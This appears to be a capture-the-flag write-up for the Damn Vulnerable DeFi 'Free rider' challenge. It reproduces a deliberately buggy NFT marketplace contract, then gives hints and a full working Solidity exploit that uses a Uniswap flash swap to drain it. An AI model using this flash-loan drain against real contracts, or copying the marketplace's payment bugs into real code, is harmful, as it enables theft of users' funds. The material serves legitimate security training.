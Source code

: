 ```yaml
---
layout: post
title: 'Damn Vulnerable Defi 10: Free rider'
category: Damn Vulnerable Defi
excerpt_separator:  <!--more-->
---
```


### Challenge:
Our tenth challenge is called 'free rider' and it comes with the following prompt:

```
A new marketplace of Damn Valuable NFTs has been released! There's been an initial mint of 6 NFTs, which are available for sale in the marketplace. Each one at 15 ETH.

A buyer has shared with you a secret alpha: the marketplace is vulnerable and all tokens can be taken. Yet the buyer doesn't know how to do it. So it's offering a payout of 45 ETH for whoever is willing to take the NFTs out and send them their way.

You want to build some rep with this buyer, so you've agreed with the plan.

Sadly you only have 0.5 ETH in balance. If only there was a place where you could get free ETH, at least for an instant.
```

We need to find a way to borrow some ETH, use it to exploit the marketplace, and then pass over the NFTs to the buyer for our commission.

The contracts for this challenge are located in contracts/puppet-v2/. The contract source code can be found below:

<details>
<summary> FreeRiderNFTMarketplace.sol:</summary>
<br>
<div markdown="1">
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "../DamnValuableNFT.sol";

/**
 * @title FreeRiderNFTMarketplace
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract FreeRiderNFTMarketplace is ReentrancyGuard {

    using Address for address payable;

    DamnValuableNFT public token;
    uint256 public amountOfOffers;

    // tokenId -> price
    mapping(uint256 => uint256) private offers;

    event NFTOffered(address indexed offerer, uint256 tokenId, uint256 price);
    event NFTBought(address indexed buyer, uint256 tokenId, uint256 price);
    
    constructor(uint8 amountToMint) payable {
        require(amountToMint < 256, "Cannot mint that many tokens");
        token = new DamnValuableNFT();

        for(uint8 i = 0; i < amountToMint; i++) {
            token.safeMint(msg.sender);
        }        
    }

    function offerMany(uint256[] calldata tokenIds, uint256[] calldata prices) external nonReentrant {
        require(tokenIds.length > 0 && tokenIds.length == prices.length);
        for (uint256 i = 0; i < tokenIds.length; i++) {
            _offerOne(tokenIds[i], prices[i]);
        }
    }

    function _offerOne(uint256 tokenId, uint256 price) private {
        require(price > 0, "Price must be greater than zero");

        require(
            msg.sender == token.ownerOf(tokenId),
            "Account offering must be the owner"
        );

        require(
            token.getApproved(tokenId) == address(this) ||
            token.isApprovedForAll(msg.sender, address(this)),
            "Account offering must have approved transfer"
        );

        offers[tokenId] = price;

        amountOfOffers++;

        emit NFTOffered(msg.sender, tokenId, price);
    }

    function buyMany(uint256[] calldata tokenIds) external payable nonReentrant {
        for (uint256 i = 0; i < tokenIds.length; i++) {
            _buyOne(tokenIds[i]);
        }
    }

    function _buyOne(uint256 tokenId) private {       
        uint256 priceToPay = offers[tokenId];
        require(priceToPay > 0, "Token is not being offered");

        require(msg.value >= priceToPay, "Amount paid is not enough");

        amountOfOffers--;

        // transfer from seller to buyer
        token.safeTransferFrom(token.ownerOf(tokenId), msg.sender, tokenId);

        // pay seller
        payable(token.ownerOf(tokenId)).sendValue(priceToPay);

        emit NFTBought(msg.sender, tokenId, priceToPay);
    }    

    receive() external payable {}
}
```
</div>
</details>

<details>
<summary> FreeRiderBuyer.sol:</summary>
<br>
<div markdown="1">
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "@openzeppelin/contracts/token/ERC721/IERC721.sol";
import "@openzeppelin/contracts/token/ERC721/IERC721Receiver.sol";

/**
 * @title FreeRiderBuyer
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract FreeRiderBuyer is ReentrancyGuard, IERC721Receiver {

    using Address for address payable;
    address private immutable partner;
    IERC721 private immutable nft;
    uint256 private constant JOB_PAYOUT = 45 ether;
    uint256 private received;

    constructor(address _partner, address _nft) payable {
        require(msg.value == JOB_PAYOUT);
        partner = _partner;
        nft = IERC721(_nft);
        IERC721(_nft).setApprovalForAll(msg.sender, true);
    }

    // Read https://eips.ethereum.org/EIPS/eip-721 for more info on this function
    function onERC721Received(
        address,
        address,
        uint256 _tokenId,
        bytes memory
    ) 
        external
        override
        nonReentrant
        returns (bytes4) 
    {
        require(msg.sender == address(nft));
        require(tx.origin == partner);
        require(_tokenId >= 0 && _tokenId <= 5);
        require(nft.ownerOf(_tokenId) == address(this));
        
        received++;
        if(received == 6) {            
            payable(partner).sendValue(JOB_PAYOUT);
        }            

        return IERC721Receiver.onERC721Received.selector;
    }
}
```
</div>
</details>

The hints and solutions for this level can be found below:

<details>
<summary> Hint 1:</summary>
<br>
<div markdown="1">
First things first, how can we exploit the marketplace? There are multiple things wrong with the buy functionality.
</div>
</details>

<details>
<summary> Hint 2:</summary>
<br>
<div markdown="1">
The first thing wrong with the buy functionality: it will send the proceeds not to the seller, but to the new owner of the NFT (hopefully you!).
</div>
</details>

<details>
<summary> Hint 3:</summary>
<br>
<div markdown="1">
The second thing wrong with the buy functionality: the callvalue (msg.value) persists for the entire duration of the transaction. By calling the `_buyOne()` function inside of a loop, we are passing in the same msg.value to it each time. In other words, for 15 ETH we can buy all of the NFTs.
</div>
</details>

<details>
<summary> Hint 4:</summary>
<br>
<div markdown="1">
Now we need to find a way to borrow 15 ETH.

Resource:
https://docs.uniswap.org/protocol/V2/guides/smart-contract-integration/using-flash-swaps
</div>
</details>

<details>
<summary> Solution:</summary>
<br>
<div markdown="1">
Ok, so this one was a lot of fun! We can see that the only functionality offered in the marketplace is to either modify an offer or purchase an NFT. Since the offer modification function has access control protections, we can turn our attention to the buy functionality. The first big issue here is that the payment to the seller is actually not sent to the seller at all. It happens post NFT transfer, which means the owner of the NFT is now actually the purchaser. This is a huge bug, and this alone is enough to complete the level if we can borrow enough ETH to purchase the NFTS (because it will be sent right back!). But, we can do better. If we look closely, the msg.value check occurs within the `_buyOne()` function which is in turn called several times by the `buyMany()` function. This means that the callvalue or amount in msg.value will persist throughout the entire transaction. All NFTs for the price of one! With these two bugs, we can drain the contract and sell the NFTs to our buyer to pocket nearly 135 ETH total. 

The second thing we needed to figure out for this level was how we were going to receive a loan for the initial 15 ETH. When you look through the `free-rider-challenge.js` file, we see that there is a uniswap pair set up with WETH and DVT. Using this hint, we can see if a uniswap pair will allow us to borrow WETH (since we can unwrap it) for a flash loan. After a small bit of research, we can see that all swaps on uniswap pairs are actually flash swaps. In other words, by crafting our request in a particular way, we can absolutely borrow WETH and pay it back before the swap transaction finishes! With these two tidbits, we are able to make our exploit contract and beat the level.


</div>
</details>

<details>
<summary> Ethers Solution:</summary>
<br>
<div markdown="1">
```
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        const FreeRiderAttackerFactory = await ethers.getContractFactory('FreeRiderAttacker', deployer);
        this.fr_attack = await FreeRiderAttackerFactory.connect(attacker).deploy(
            this.uniswapPair.address, 
            this.weth.address, 
            this.marketplace.address, 
            this.nft.address, 
            this.buyerContract.address, 
            attacker.address
            );
        await this.fr_attack.attack();

    });
```
</div>
</details>

<details>
<summary> Contract Solution:</summary>
<br>
<div markdown="1">
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "@openzeppelin/contracts/token/ERC721/IERC721Receiver.sol";


/*
 * @title FreeRiderAttacker.sol
 * @author securerodd
 */

interface IWethToken {
   function deposit() external payable;
   function withdraw(uint256) external payable;
   function transfer(address, uint256) external;
}

interface IFreeRiderMarketPlace {
    function buyMany(uint256[] calldata) external payable;
}

interface INFT {
    function safeTransferFrom(address,address,uint256) external;
}

interface IUniswapV2Pair {
    function swap(uint amount0Out, uint amount1Out, address to, bytes calldata data) external;
}
contract FreeRiderAttacker {

    IWethToken public weth;
    IFreeRiderMarketPlace public market;
    IUniswapV2Pair public pair;
    INFT public nft;
    address buyer;
    address attacker;
    constructor(address _pair, address _weth, address _market, address _nft, address _buyer, address _attacker) {
        pair = IUniswapV2Pair(_pair);
        weth = IWethToken(_weth);
        market = IFreeRiderMarketPlace(_market);
        nft = INFT(_nft);
        buyer = _buyer;
        attacker = _attacker;
    }

    function attack() public payable{
        // make data > 0 in length to turn swap into flash swap
        bytes memory data = abi.encode("d");

        // flash swap ourselves 15 WETH
        pair.swap(15 ether,0,address(this),data);

    }

    function uniswapV2Call(address, uint, uint, bytes calldata) external {
        // Swap weth for ETH
        weth.withdraw(15 ether);

        // Calculate how much we have to payback for our flashloan
        uint256 amountToRepay = (uint256((15 ether * 1000)) / 997) + 1;

        // create 'dynamic' array of tokenIDs for our NFT purchase
        uint256[] memory tokens = new uint256[](6);
        tokens[0] = 0;
        tokens[1] = 1;
        tokens[2] = 2;
        tokens[3] = 3;
        tokens[4] = 4;
        tokens[5] = 5;

        // Use ETH to buy all of the NFTs
        market.buyMany{value: 15 ether}(tokens);

        // Sell all 6 NFTs to buyer and get the 45 ETH from buyer
        for (uint256 i = 0; i < 6;) {
            nft.safeTransferFrom(address(this), buyer, i);
            unchecked {++i;}
        }

        // swap ETH for weth
        weth.deposit{value: amountToRepay}();

        // pay back our flash swap
        weth.transfer(address(pair), amountToRepay);

        // transfer the spoils to our attacker
        payable(attacker).transfer(address(this).balance);

    }

    // required to receive safeTransferFrom from marketplace
    function onERC721Received(
        address,
        address,
        uint256,
        bytes memory
    ) 
        external pure
        returns (bytes4) 
    {
        return IERC721Receiver.onERC721Received.selector;
    }

    receive() external payable {}
}
```
</div>
</details>
